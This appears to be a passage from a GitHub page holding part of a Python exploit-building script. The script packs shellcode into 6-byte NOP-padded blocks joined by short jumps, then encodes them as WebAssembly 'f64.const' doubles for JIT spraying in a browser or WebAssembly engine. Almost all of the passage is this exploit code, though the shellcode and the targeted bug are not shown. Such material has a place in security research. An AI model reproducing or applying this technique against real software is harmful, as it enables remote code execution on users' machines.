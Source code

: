 ```python
	for line in sc.splitlines():
		k = asm(line)
		print("line {} ---- asm {} ---- len {}".format(line,k,len(k)))
		assert(len(k) <= n)
		if (len(cur) + len(k) <= n):
			cur += k
		else:
			ret += [cur.ljust(6,b"\x90")] # pad with NOPs
			cur = k
			
	ret += [cur.ljust(6,b"\x90")]
	return ret

SC = packshellcode(sc, 6)

# Ensure no repeat of 6 byte blocks
#D = dict(zip(SC, [SC.count(x) for x in SC]));
#assert(max(D.values()) == 1)

jmp = b'\xeb'


jump_len = [b'\x07']*len(SC)
for i in range(7,len(SC)):
	jump_len[i] = b'\x0c'
print(jump_len)
# After 16 jumps the instruction size of the vmovsd becomes 7 bytes from 4 bytes
# (4 bytes used instead of 1 byte to represent immediate larger than 0x7f)
#jump_len[4:] = [b'\x09'] * len(jump_len[4:]) 

SC = [(x + jmp + y) for x,y in zip(SC, jump_len)] # add jumps after each 6 byte block

SC = [struct.unpack('<d', x)[0] for x in SC] # represent as doubles

float1 = ''
drop = 0
for i in SC:
    drop += 1
    float1 += "f64.const {}\r\n".format(i)
    #print("f64.const {}".format(i))
for i in range(1,drop):
	if ( i == drop-1):
		print('aaa')
		float1 += "drop"
	else:
		float1 += "drop\r\n"

print(float1)
```
![image](https://github.com/user-attachments/assets/2de89476-2348-49a8-ab0b-1e295afa9915)

